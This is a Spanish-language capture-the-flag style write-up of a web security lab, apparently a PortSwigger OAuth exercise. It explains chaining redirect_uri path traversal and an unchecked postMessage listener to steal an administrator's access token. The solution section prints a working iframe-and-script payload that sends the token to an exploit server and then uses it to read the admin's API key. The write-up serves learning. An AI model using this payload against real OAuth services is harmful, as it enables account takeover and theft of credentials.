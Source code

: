 En esta clase final, se combina todo lo aprendido para construir un exploit completo. Se crea un iframe que inicia el flujo OAuth con el **redirect_uri** apuntando al formulario de comentarios vulnerable, el cual reflejará el token en su propiedad ‘**location.href**‘.

Debajo del iframe, se implementa un script que escucha eventos **message** desde el iframe, y envía los datos recibidos (incluyendo el token) como una petición al exploit server. Esto permite registrar en el access log el token de acceso del administrador.

Una vez recibido el token, se utiliza en el endpoint **/me** del blog para realizar una petición autenticada como el administrador. La respuesta devuelve los datos personales y la API key, la cual se emplea para resolver el laboratorio.

Este ejercicio demuestra cómo una combinación de path traversal, comportamiento de proxy inseguro y falta de restricciones en postMessage puede comprometer por completo una cuenta privilegiada en un entorno OAuth.

Solucion
Vamos a crear un script en nuestro exploit server
para hacer el iframe hay que inteceptar despues de deslogearnos y en el apartado de carga es ahi donde interceptamos vamos a poner el host y la parte de arriba y vamos a poner despues del callback el (/../post/comment/comment-form)
![Pasted_image_20250830193959.png](/Imagenes/Pasted_image_20250830193959.png)
<'iframe src="https://oauth-0aab00270358900a80603d6d028500d5.oauth-server.net/auth?client_id=g2x5o5192ufzif2j33ser&redirect_uri=https://0ad9005203d590bb80333f79006900eb.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=1641080511&scope=openid%20profile%20email"></iframe'>

<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
![Pasted_image_20250830194353.png](/Imagenes/Pasted_image_20250830194353.png)
 le damos store enviamos a la victima y miramos los acces log recargando y vemos el access token 
![Pasted_image_20250830194512.png](/Imagenes/Pasted_image_20250830194512.png)
lo pegamos en el authorization y le damos send
![Pasted_image_20250830194554.png](/Imagenes/Pasted_image_20250830194554.png)
y ya solo copiamos la api key y pegamos en la pagina
![Pasted_image_20250830194626.png](/Imagenes/Pasted_image_20250830194626.png)

 